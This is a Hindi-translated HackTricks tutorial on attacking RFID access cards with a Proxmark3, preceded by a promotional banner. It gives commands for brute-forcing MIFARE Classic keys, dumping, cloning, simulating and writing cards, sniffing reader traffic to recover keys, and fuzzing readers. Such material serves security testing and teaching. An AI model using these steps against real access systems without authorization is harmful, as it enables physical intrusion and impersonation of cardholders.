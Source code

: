 # Proxmark 3

<details>

<summary><strong>जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित देखना चाहते हैं**? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का एक्सेस चाहिए**? [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) और **ट्विटर** पर **मेरा पालन करें** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**hacktricks रेपो**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud रेपो**](https://github.com/carlospolop/hacktricks-cloud) **को**.

</details>

**Try Hard Security Group**

<figure><img src="https://github.com/carlospolop/hacktricks/blob/in/todo/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## Proxmark3 के साथ RFID सिस्टमों को हमला करना

पहली चीज जो आपको करनी होगी, वह है [**Proxmark3**](https://proxmark.com) और [**सॉफ़्टवेयर और इसकी डिपेंडेंसी को इंस्टॉल करना**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux)[**s**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux).

### MIFARE Classic 1KB को हमला करना

इसमें **16 सेक्टर** हैं, प्रत्येक में **4 ब्लॉक** हैं और प्रत्येक ब्लॉक में **16B** होता है। UID सेक्टर 0 ब्लॉक 0 में है (और इसे बदला नहीं जा सकता)।\
प्रत्येक सेक्टर तक पहुंचने के लिए आपको **2 कुंजियाँ** (**A** और **B**) चाहिए होती हैं जो **प्रत्येक सेक्टर के ब्लॉक 3 में** संग्रहित होती हैं (सेक्टर ट्रेलर)। सेक्टर ट्रेलर में भी **एक्सेस बिट्स** संग्रहित होते हैं जो **प्रत्येक ब्लॉक पर पढ़ने और लिखने** की अनुमतियाँ देते हैं जो 2 कुंजियों का उपयोग करते हैं।\
यदि आप पहली को जानते हैं तो पढ़ने की अनुमति देने के लिए 2 कुंजियाँ उपयोगी हैं और यदि आप दूसरी को जानते हैं तो लिखने की अनुमति देने के लिए। (उदाहरण के लिए)।

कई हमले किए जा सकते हैं

```bash
proxmark3> hf mf #List attacks

proxmark3> hf mf chk *1 ? t ./client/default_keys.dic #Keys bruteforce
proxmark3> hf mf fchk 1 t # Improved keys BF

proxmark3> hf mf rdbl 0 A FFFFFFFFFFFF # Read block 0 with the key
proxmark3> hf mf rdsc 0 A FFFFFFFFFFFF # Read sector 0 with the key

proxmark3> hf mf dump 1 # Dump the information of the card (using creds inside dumpkeys.bin)
proxmark3> hf mf restore # Copy data to a new card
proxmark3> hf mf eload hf-mf-B46F6F79-data # Simulate card using dump
proxmark3> hf mf sim *1 u 8c61b5b4 # Simulate card using memory

proxmark3> hf mf eset 01 000102030405060708090a0b0c0d0e0f # Write those bytes to block 1
proxmark3> hf mf eget 01 # Read block 1
proxmark3> hf mf wrbl 01 B FFFFFFFFFFFF 000102030405060708090a0b0c0d0e0f # Write to the card
```

Proxmark3 अन्य क्रियाएँ करने की अनुमति देता है जैसे कि **इकछुपण** एक **टैग से रीडर संचार** को सुनने के लिए संवेदनशील डेटा ढूंढने का प्रयास करना। इस कार्ड में आप संचार को स्निफ कर सकते हैं और कुंजी का उपयोग कर सकते हैं क्योंकि **रहस्यमय संचालन जो कमजोर हैं** और सादा और चिपर टेक्स्ट को जानकर आप इसे कैलक्यूलेट कर सकते हैं (`mfkey64` टूल)।

### कच्चे कमांड

आईओटी सिस्टम कभी-कभी **गैर-ब्रांडेड या गैर-वाणिज्यिक टैग** का उपयोग करते हैं। इस मामले में, आप Proxmark3 का उपयोग करके टैग्स को अपने लिए **कस्टम कच्चे कमांड भेजने** के लिए कर सकते हैं।

```bash
proxmark3> hf search UID : 80 55 4b 6c ATQA : 00 04
SAK : 08 [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
No chinese magic backdoor command detected
Prng detection: WEAK
Valid ISO14443A Tag Found - Quiting Search
```

इस जानकारी के साथ आप कार्ड के बारे में जानकारी खोजने का प्रयास कर सकते हैं और उसके साथ संवाद करने के तरीके के बारे में। Proxmark3 अनुप्रेषित आदेश भेजने की अनुमति देता है जैसे: `hf 14a raw -p -b 7 26`

### स्क्रिप्ट

Proxmark3 सॉफ़्टवेयर के साथ एक पूर्व लोड किया गया **स्वचालन स्क्रिप्ट** सूची आती है जिसका उपयोग आप सरल कार्यों को पूरा करने के लिए कर सकते हैं। पूरी सूची प्राप्त करने के लिए, `script list` कमांड का उपयोग करें। अगले, स्क्रिप्ट के नाम के साथ `script run` कमांड का उपयोग करें:

```
proxmark3> script run mfkeys
```

आप एक स्क्रिप्ट बना सकते हैं ताकि **टैग रीडर** को **फज़ किया** जा सके, तो केवल **एक मान्य कार्ड** के डेटा की प्रतिलिपि बनाएं और एक **Lua स्क्रिप्ट** लिखें जो एक या एक से अधिक **रैंडम बाइट्स** को यादृच्छिक रूप से **रैंडमाइज़** करें और किसी भी अवधि के साथ **रीडर क्रैश** की जांच करें।
